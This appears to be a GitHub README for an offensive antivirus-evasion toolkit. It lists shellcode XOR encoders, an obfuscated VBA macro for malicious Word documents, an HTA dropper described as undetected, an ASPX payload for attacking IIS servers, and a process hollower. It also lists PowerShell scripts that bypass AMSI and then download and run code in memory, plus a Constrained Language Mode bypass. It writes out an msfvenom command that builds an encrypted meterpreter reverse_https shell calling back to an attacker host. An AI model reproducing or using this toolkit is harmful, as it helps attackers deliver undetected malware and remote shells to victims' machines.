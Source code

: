 ## TOOLS:
* Platform.sln => platform.exe
```
PE with bypasses - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* XOREncrypt.sln => XOREncrypt.exe 
```
A second layer shellcode XOR encoer.
```
* holcrimson.sln => holcrimson.dll
```
Unamanged DLL for in memory loading - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* Doc1.doc - example Doc1.doc from medium article.
* VBA_XORencrypt.ps1 - Powershell script for encrypting 4 parts of VBA macro.
* Platform.txt - PS script
```
1. AMSI bypass
2. Download DLL
3. Load DLL to memory.
4. Run DLL.
```
* macro.vba - for Doc1.doc
```
Obfuscated VBA macro for docm / doc attack.
```
* platform.aspx - for IIS webserver attack
```
Use with msfvenom encrypted generated shellcode + XOREncrypt.sln
```
* platform.hta - dropper.
```
Use with obfuscated PE ShellCode Runner
Download to disk and run - this is undetected.
```
* isma.txt - use "-arg=1".split for arguemnts parsing.
```
1. AMSI bypass
2. Download PE
3. Load PE to memory.
4. Run PE.
```
* HOLLOW.sln => HOLLOW.exe - Process Hollower.
```
1. Generate encrypted shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$ip LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key w -o shell.cs
2. Place inside and compile it.
```
* ConfuserEX.zip - for PE obfuscation.
* bypass-clm.exe - [CLM Bypass](https://github.com/Karmaz95/bypass-clm) => spawn PowerShell in current terminal.
* clm_enc.txt - Same as bypass-clm.exe but base64 encoded with certutil and you can pass b64 encoded commands:
```
certutil -decode clm_enc.txt clm.exe
# Example of b64 below checks if the PowerShell run in FullLanguage
clm.exe "JABFAHgAZQBjAHUAdABpAG8AbgBDAG8AbgB0AGUAeAB0AC4AUwBlAHMAcwBpAG8AbgBTAHQAYQB0AGUALgBMAGEAbgBnAHUAYQBnAGUATQBvAGQAZQA="
```

## SCORE 
<p align="center">
  <img src="antiscanme.png" />
</p>
